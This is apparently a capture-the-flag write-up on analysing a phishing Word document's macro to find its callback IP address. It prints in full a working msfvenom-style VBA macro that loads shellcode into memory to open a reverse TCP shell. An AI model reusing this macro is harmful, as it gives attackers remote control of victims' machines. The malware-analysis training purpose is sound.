 # The Phish Tank - 3a
> The suspicious IP address sent another email, which contained a Microsoft Word document attachment. The user who attempted to open this document saw the banner warning that the document contained macros and immediately closed the document and reported it to Snowpoint’s security team.

> The Snowpoint team would like your assistance extracting this Microsoft Word document and analyzing the macros it contains. Based on initial analysis, they believe it is an msfvenom created macro that attempts to make reverse TCP connection back to another computer. Since this is an internal network, they are confident the IP address starts with 10.140.

> What IP address does this macro attempt to connect to?

> Flag format: IP Address. Example: 10.140.1.1

## About the Challenge
We need to do reverse engineering on the Docx file to find the IP address (Sorry, I can't provide you the file, because its a malware)

## How to Solve?
As usual, Im doing static analysis first and then I found there is a VBA script like this:

```
#If VBA7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Bepfnc As Long, ByVal Uedado As Long, ByVal Diyqiili As LongPtr, Nky As Long, ByVal Ivh As Long, Wcuewmiy As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Vtsvctjoj As Long, ByVal Vqzfnupj As Long, ByVal Pifzmlog As Long, ByVal Qgmpqd As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Wloqmb As LongPtr, ByRef Dbhvuzro As Any, ByVal Ohqje As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal Bepfnc As Long, ByVal Uedado As Long, ByVal Diyqiili As Long, Nky As Long, ByVal Ivh As Long, Wcuewmiy As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Vtsvctjoj As Long, ByVal Vqzfnupj As Long, ByVal Pifzmlog As Long, ByVal Qgmpqd As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Wloqmb As Long, ByRef Dbhvuzro As Any, ByVal Ohqje As Long) As Long
#End If
Sub Auto_Open()
        Dim Hrfoyesjd As Long, Dnbtk As Variant, Jag As Long
#If VBA7 Then
        Dim Omvyup As LongPtr, Glyyeamp As LongPtr
#Else
        Dim Omvyup As Long, Glyyeamp As Long
#End If
Dnbtk = Array(252, 232, 143, 0, 0, 0, 96, 137, 229, 49, 210, 100, 139, 82, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 49, 255, 15, 183, 74, 38, 49, 192, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 73, 117, 239, 82, 87, 139, 82, 16, 139, 66, 60, 1, 208, 139, 64, 120, 133, 192, 116, 76, 1, 208, 139, 72, 24, 80, 139, 88, 32, 1, 211, 133, 201, 116, 60, 73, 49, _
255, 139, 52, 139, 1, 214, 49, 192, 193, 207, 13, 172, 1, 199, 56, 224, 117, 244, 3, 125, 248, 59, 125, 36, 117, 224, 88, 139, 88, 36, 1, 211, 102, 139, 12, 75, 139, 88, 28, 1, 211, 139, 4, 139, 1, 208, 137, 68, 36, 36, 91, 91, 97, 89, 90, 81, 255, 224, 88, 95, 90, 139, 18, 233, 128, 255, 255, 255, 93, 104, 51, 50, 0, 0, 104, 119, 115, 50, 95, 84, _
104, 76, 119, 38, 7, 137, 232, 255, 208, 184, 144, 1, 0, 0, 41, 196, 84, 80, 104, 41, 128, 107, 0, 255, 213, 106, 10, 104, 10, 140, 1, 15, 104, 2, 0, 106, 218, 137, 230, 80, 80, 80, 80, 64, 80, 64, 80, 104, 234, 15, 223, 224, 255, 213, 151, 106, 16, 86, 87, 104, 153, 165, 116, 97, 255, 213, 133, 192, 116, 10, 255, 78, 8, 117, 236, 232, 103, 0, 0, 0, _
106, 0, 106, 4, 86, 87, 104, 2, 217, 200, 95, 255, 213, 131, 248, 0, 126, 54, 139, 54, 106, 64, 104, 0, 16, 0, 0, 86, 106, 0, 104, 88, 164, 83, 229, 255, 213, 147, 83, 106, 0, 86, 83, 87, 104, 2, 217, 200, 95, 255, 213, 131, 248, 0, 125, 40, 88, 104, 0, 64, 0, 0, 106, 0, 80, 104, 11, 47, 15, 48, 255, 213, 87, 104, 117, 110, 77, 97, 255, 213, _
94, 94, 255, 12, 36, 15, 133, 112, 255, 255, 255, 233, 155, 255, 255, 255, 1, 195, 41, 198, 117, 193, 195, 187, 240, 181, 162, 86, 106, 0, 83, 255, 213))

        Omvyup = VirtualAlloc(0, UBound(Dnbtk), &H1000, &H40)
        For Jag = LBound(Dnbtk) To UBound(Dnbtk)
                Hrfoyesjd = Dnbtk(Jag)
                Glyyeamp = RtlMoveMemory(Omvyup + Jag, Hrfoyesjd, 1)
        Next Jag
        Glyyeamp = CreateThread(0, 0, Omvyup, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
```

As you can see the VBA script was obfuscated and don't know how to deobfuscate it. So I decided to find the IP address using dynamic analysis approach. Im using `any.run` website to do dynamic analysis and luckily I got the IP address by checking `Connection` tabs

https://app.any.run/tasks/d82af4a0-af76-44d2-a157-56dc023eb0d7/

![flag](images/flag.png)

```
10.140.1.15
```